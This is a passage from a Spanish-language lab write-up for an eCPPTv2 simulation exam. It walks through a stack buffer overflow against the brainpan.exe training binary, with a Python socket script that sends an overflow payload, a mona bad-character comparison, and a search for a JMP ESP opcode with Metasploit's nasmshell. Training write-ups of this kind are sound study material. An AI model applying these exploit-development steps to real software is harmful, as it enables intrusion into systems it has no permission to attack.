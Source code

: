     # Payload
    payload = before_eip + eip + byte_array
    
    # Establecer conexión TCP
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ip_address, port))
    
    # Recibir el banner o respuesta de la conexión
    banner = s.recv(1024)
    
    # Envío de datos
    s.send(payload)
    
    # Cierre de conexión
    s.close()
    ```
    

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 143.png)

Para descubrir estos badchars, se compararán los caracteres actuales del stack con el archivo “.bin” que se encuentra en el directorio de trabajo, con el objetivo de encontrar diferencias.

```bash
!mona compare -a 0x0022f930 -f C:\Users\attacker\Desktop\Analysis\bytearray.bin
```

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 144.png)

No se encontró ningún badchar por lo que no será necesario crear nuevos bytearrays.

### Búsqueda de OPCode (JMP ESP)

Para que el EIP apunte al ESP y se interprete el shellcode que se ingresará en la pila, será necesario buscar el OPCode que haga un JMP ESP para que el EIP apunte a esta dirección.

Primero se buscará un módulo que no tenga las primeras cuatro protecciones activas

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 145.png)

El propio ejecutable de brainpan (”C:\Users\attacker\Desktop\brainpan.exe”) no tiene proteccions por lo que es aquí donde se buscará el OPcode que aplique un JMP ESP.

Para saber cuál es el identificador del OPCode que se debe buscar, se puede usar la herramienta de metasploit nasmshell.rb, esto indicará el OPcode correspondiente al JMP ESP.

```bash
/usr/share/metasploit-framework/tools/exploit/nasmshell

# En la consola nasm: jmp esp
```
